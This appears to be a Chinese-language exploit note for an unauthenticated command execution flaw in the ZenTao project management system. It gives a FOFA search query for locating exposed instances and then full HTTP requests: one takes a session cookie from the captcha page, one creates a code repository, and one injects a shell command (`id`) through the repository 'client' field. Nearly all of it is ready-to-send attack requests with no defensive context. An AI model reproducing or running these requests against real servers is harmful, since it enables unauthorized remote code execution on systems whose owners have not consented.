



# 禅道未授权命令执行漏洞
## 资产搜索
fofa app="易软天创-禅道系统"	title="用户登录 - 禅道"
### 请求验证码
`GET /zentao/misc-captcha-user.html`  
记下来Cookie里面的zentaosid

### 建立代码库
（感觉是为了防止不存在代码库，存在的话不创建也行） 
⚠️重要：  
1. header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）   
2. data里面的name值是一个随机数，保证没有已存在的  
```http
POST /zentao/repo-create.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 113

product%5B%5D=25053&SCM=Gitlab&name={随机数}&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
``` 

## 命令执行
⚠️重要：  
header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）    
```http
POST /zentao/repo-edit-10000-10000.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 26

SCM=Subversion&client=`id`
```
